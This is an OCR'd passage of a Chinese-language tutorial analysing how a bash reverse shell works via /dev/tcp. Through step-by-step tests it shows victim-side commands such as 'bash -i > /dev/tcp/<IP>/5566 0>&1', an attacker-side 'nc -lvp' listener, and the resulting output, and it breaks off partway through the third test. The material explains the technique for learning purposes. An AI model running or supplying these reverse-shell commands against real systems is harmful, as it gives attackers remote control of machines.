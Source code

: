 ```bash
-i interactive。即产生一个交互式的shell（bash）。

3. /dev/tcp/IP/PORT

特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 bash 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。

通过以下4个小测试来分析反弹shell实现过程：

（PS: 注意执行步骤顺序）

测试1：

受害端：

[root@victim ~]# bash -i > /dev/tcp/10.201.61.194/5566        //第二步
[root@victim ~]# hostname        //第三步
[root@victim ~]#

攻击端：

[root@hacker ~]# nc -lvp 5566      //第一步

Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:49018.

victim      //测试1结果：实现了将受害端的标准输出重定向到攻击端，但是还没实现用命令控制受害端。
测试2：

受害端：

[root@victim ~]# bash -i < /dev/tcp/10.201.61.194/5566        //第二步
[root@victim ~]# hostname        //测试2结果：实现了将攻击端的输入重定向到受害端，但是攻击端看不到命令执行结果。
victim

 攻击端：

[root@hacker ~]# nc -lvp 5566        //第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:50412.
hostname        //第三步（攻击端执行命令）
测试3：

受害端：

[root@victim ~]# bash -i > /dev/tcp/10.201.61.194/5566 0>&1        //第二步
[root@victim ~]# hostname        //受害端回显命令
[root@victim ~]# id        //受害端回显命令
[root@victim ~]# hahaha        //受害端回显命令
bash: hahaha: command not found        //受害端回显命令。显示错误命令的输出。
[root@victim ~]#

 攻击端：

[root@hacker ~]# nc -lvp 5566        //第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
```